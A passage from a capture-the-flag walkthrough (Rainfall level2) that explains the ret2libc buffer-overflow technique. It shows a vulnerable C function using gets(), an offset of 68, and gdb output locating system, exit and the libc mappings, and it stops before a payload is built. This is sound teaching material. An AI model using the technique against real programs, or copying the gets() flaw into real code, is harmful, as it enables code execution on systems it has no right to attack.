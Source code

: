 So after calling blue() we return to the main function at step3.
There is no exploit possible here. It was just a simple way to explain how the call and ret instructions work

Now that we explain ret, let's see ret2libc

## Ret2Libc

Ret2Libc attack is a buffer overflow which goal is to replace the default return address with the address of a Libc function (system in this case)
```
+------------------------------------------------------+---------------+---------------------+
|  Local Variables:                                    |   Saved EBP   |   Saved Return Addr |
|  - Local Buffer (64 bytes)                           |   (4 bytes)   |    (4 bytes)        |
|  - (other local variables, if any)                   |               |                     |
+------------------------------------------------------+---------------+---------------------+
```
```c
void func()
{
   char buffer[64];
   gets(buffer);
   return ;
}
```

To do this we need to reach the return address position. [How to reach return address position](https://github.com/HugoKovac/Rainfall/tree/main/level2/walkthrough.md#eip-register-anchor)
Which is at offset: 68 (buffer 64 bytes + saved_ebp 4 bytes)

Then we need to retrieve the address of libc:system.
```sh
level2@RainFall:~$ gdb level2 
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) run
Starting program: /home/user/level2/level2 

Breakpoint 1, 0x08048542 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system> #address of system
```

Them we also need the address of the exit function.
Why do need exit's address ?

System is a function, and it also need a valid return address, we are using exit by default to leave the program cleanly
```sh
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
```

Now we need the address of the string "/bin/sh" to send it as an argument for system()
```sh
(gdb) info proc map
process 2938
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
         0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
        0xb7e2b000 0xb7e2c000     0x1000        0x0
      [0xB7E2C000] 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so #Start addr
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 [0xB7FD2000]     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so #End addr
        0xb7fd2000 0xb7fd5000     0x3000        0x0
        0xb7fdb000 0xb7fdd000     0x2000        0x0
```